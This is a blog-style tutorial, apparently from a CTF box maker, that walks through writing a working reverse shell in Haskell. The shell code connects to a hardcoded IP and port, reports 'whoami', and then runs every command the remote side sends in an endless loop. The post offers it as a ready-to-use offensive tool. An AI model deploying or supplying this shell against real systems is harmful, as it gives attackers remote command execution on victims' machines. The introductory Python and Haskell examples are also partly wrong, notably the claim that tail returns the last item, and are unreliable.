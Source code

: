 ```yaml
---
layout: default
title: "Writing A Reverse Shell In Haskell"
permalink: /Writing-A-Reverse-Shell-In-Haskell/
categories: haskell
---
```


While I was developing a vulnerable box for the TryHackMe teaching platform, I wrote a small Flask app that accepts a Haskell file upload and compiles/runs it. This was intended to be abused by attackers in order to get an initial foothold through running a Haskell program and then escalate to root. Like any good box maker I had to test it and make sure it was solvable. My initial solution to the foothold was a short Haskell program that uses the System.Process library in order to call system functions. Since redirection was really janky I couldn’t do a lot of things, so my workaround was to wget a Python reverse shell and then run it. This worked, but I thought “Surely someone has written a reverse shell in this language”. Much to my surprise, Google turned up empty. Original thought isn’t dead!

I attribute this to a few things: Haskell is a somewhat niche language, it’s not very easy to pick up, and it’s pretty limited in its applications for offensive security. Ironically, Haskell is an incredibly safe language because of all the type checking, lack of side effects, and how easy it makes proving functions! Anyways, I figured that since no one had done it before, I ought to write a reverse shell. I’m currently completing my OSCP and have been using PayloadAllTheThings like a zealot, so this seems like my chance to give back in a very niche fashion if for some reason someone needs a Haskell reverse shell.

# A Brief Introduction To Haskell (Skip this if you just wanna see the shellz)
Here’s a few cool things about Haskell:

* Haskell is statically typed, so if we assign a variable to an integer the compiler knows it’s going to stay an integer
* Functions have no side effects. The only thing that a function can do is compute something and return its value.
* Haskell is lazy. This means it won’t compute values until we actually ask for them. This comes in handy if we, say, want to work with an infinitely long list. We can declare an infinitely long list, and if we try to access list indexes very far into the list, Haskell won’t compute that until we ask for it.
* Haskell is super concise. It’s very easy to write very short, incredibly powerful one liners

Here’s a brief comparison between Haskell and Python, as many people have experience with Python. The problem will be to reverse a list and return a list containing the new first and last index. For example, if the input is [1,2,3,4], the output is [4,1]. We’ll assume “x” is our variable equal to the input.

Python: 

~~~python
x.reverse[0].append(x.reverse[-1])
~~~
If you’re familiar with List objects in Python, you know that what we’re doing behind the scenes is accessing the reverse, getitem (to access the index), and append methods of the List class in order to perform this operation.

Haskell:

~~~haskell
(head (reverse x)):(tail (reverse x)):[]
~~~
In Haskell, we’re calling the head function to get the first item, the reverse function to give us a reversed list, the tail function to get the last item, and then appending it using the “:” list constructor onto an empty list. We did all of this just with functions, how cool is that!

Additionally, we could tell Haskell what we want to input/output from our function. So in this case, we’re inputting a list of integers and returning a list of integers. So we could tell Haskell:
~~~haskell
funcName :: [Int] -> [Int]
~~~
If we try to pass in a string or a list of strings, then Haskell will throw an error at compilation. This can also be abstracted, so if we wanted to take a list of something and return a single something we could declare:
~~~haskell
funcName :: [a] -> a
~~~
Where “a” is our generic data type. Contrast this to Python, where we can take the example above and nothing prevents us from passing in a number. But when the function tries to run, it’ll try to call the reverse method of the Integer class, which will fail because there isn’t one. With Haskell, we know what we’re getting.

This is just a short description of Haskell, it’s an incredibly powerful language and I suggest that you dig deeper into it.

# Writing Our Reverse Shell
Anyways, now that you’ve had a brief introduction to how Haskell works, let’s get into the reverse shell. We’ll dissect it a few lines at a time.

~~~haskell
import Network.Socket hiding (send, sendTo, recv, recvFrom)
import Network.Socket.ByteString (send, recv)
import qualified Data.ByteString.Char8 as B8
import System.Process
import System.IO
import Control.Exception

main = do
        client "192.168.126.128" 1234
~~~

Pretty self explanatory. This is just our imports and our main function call, similar to Java/C/etc.

~~~haskell
client :: String -> Int -> IO ()
client host port = withSocketsDo $ do
                addrInfo <- getAddrInfo Nothing (Just host) (Just $ show port)
                let serverAddr = head addrInfo
~~~

This is the start function that we call in main. I’ve pulled a short snippet because I want to address a few Haskell syntax things.

First, at a high level, what we’re doing here is constructing the addrInfo data type that we need to grab information from to pass to a later function.

Why do some lines have a <- and some have a “let x = y”? The <- operator is used for IO actions in this case. Essentially, it will actually perform the IO operation and then bind it to the variable, performing a monadic binding and let us work with that variable differently. The “let =” operator binds whatever the value is to a variable literally.

The $ operator is used for function application. For (Just $ show port), “Just” is a data type that lets us say “The result of this function MAY BE this, but it also MAY BE Nothing”. The “show” function takes a value and outputs that value as a string. If we had “(Just show port)”, then that could be interpreted as us trying to declare “show” as a variable of the “Maybe” type (of which Just is a subtype). But that’s not what we want, we want to apply Just to the result of “show port”.

~~~haskell
sock <- socket (addrFamily serverAddr) Stream defaultProtocol
connect sock (addrAddress serverAddr)
(_, Just hout, _, _) <- createProcess (proc "whoami" []) {std_out = CreatePipe}
resultOut <- hGetContents hout
let resultMsg = B8.pack resultOut
send sock resultMsg
msgSender sock
close sock
~~~

Now the rest of this function. We’ll pass in the first item of our addrInfo data type, serverAddr, cast as an addrFamily data type. Haskell will detect the protocol used for us, in this case TCP. This creates the socket that we’re going to pass around for the rest of this program. Then, we’ll call the connect function and pass in the socket and server address.

Next is the meat and potatoes of the command execution, we call createProcess and pass in “whoami” as our process, creating a pipe for standard out. I used whoami as it works on both Linux and Windows. If you’re curious about the underscores in (_, Just hout, _, _) those essentially mean that we don’t care what they are because we’re not going to use them, so we don’t need to assign them to a variable. If we wanted to use them all they would be stdin, stdout, stderr, and a handle to the process (in that order). Then we can get the results of our command using the IO operation hGetContents and use ByteString to pack them into a network friendly form. Then we’ll send the result of that command, so the user on the receiving end knows who they are, and call the function that’s going to do the heavy lifting.

~~~haskell
msgSender :: Socket -> IO ()
msgSender sock = do
  let msg = B8.pack ""
  send sock msg
  rMsg <- recv sock 2048
  let split_cmd = words (filter (/= '\n') (B8.unpack rMsg))
  print split_cmd
  result <- try' $ createProcess (proc (head split_cmd) (tail split_cmd)) {std_out = CreatePipe, std_err = CreatePipe}
  case result of 
    Left ex                            -> sendError sock ex
    Right (_, Just hout, Just herr, _) -> sendResult sock (Nothing, Just hout, Just herr, Nothing)
  msgSender sock
~~~

If you’ve made it this far, I promise that we’re almost done with all the convoluted Haskell stuff! This function is going to infinitely loop in order to call commands, return their output, and then wait again. The program receives a message from the user, removes all new lines via filter, and uses the words function to create a list split on every space. We have to do this as createProcess takes a list of arguments to the command. Then, we’ll run our program the same as before, but this time we’ll also create an std_err pipe as we want to know when things go wrong. You’ll also notice the “try’” function call with the $ function applicator. 

~~~haskell
try' :: IO a -> IO (Either IOException a)
try' = try
~~~

Adding an apostrophe to a function name is the standard way to denote a modified version of an existing function in Haskell. This takes the existing try function, but specifies it so that it takes a generic IO type in and returns an “Either” data type, which allows us to handle exceptions. This is necessary because while a command returning an error isn’t a problem, if we try to run a non-existent command then the shell would just crash.

We can then use a case statement for error handling.In other languages this would be a switch statement or a series of if statements. Our try function will return “Left” if the command had an exception, and “Right” if it succeeded. So if it fails, we’ll send the error message back to the user. If it didn’t fail, we’ll send back the output and any error messages that were a product of the command. Then we call the function again and loop back. 

~~~haskell
sendError sock err = do
  let errorMsg = B8.pack ("Error:" ++ show err ++ "\n")
  send sock errorMsg
  
sendResult sock (_, Just hout, Just herr, _) = do
    resultOut <- hGetContents hout
    errorOut <- hGetContents herr
    let resultMsg = B8.pack resultOut
    let errorMsg = B8.pack errorOut
    send sock resultMsg
    send sock errorMsg
~~~

The last component are the functions that will send a system error back to the user if the command causes an exception, and the function that sends back the results of the command. These are pretty self explanatory.

And that’s how you implement a reverse shell in Haskell! Hopefully you learned something new from this post. If you’ve never used a functional programming language before, I highly recommend that you do a bit of reading on them. Personally I wasn’t super fluent with Python’s Lambda functions or list comprehensions, but after learning some Haskell I have no problem writing them on the fly. There’s no feeling of power quite like writing a 500 character one liner to process a data set that would’ve taken 20 characters in Excel.
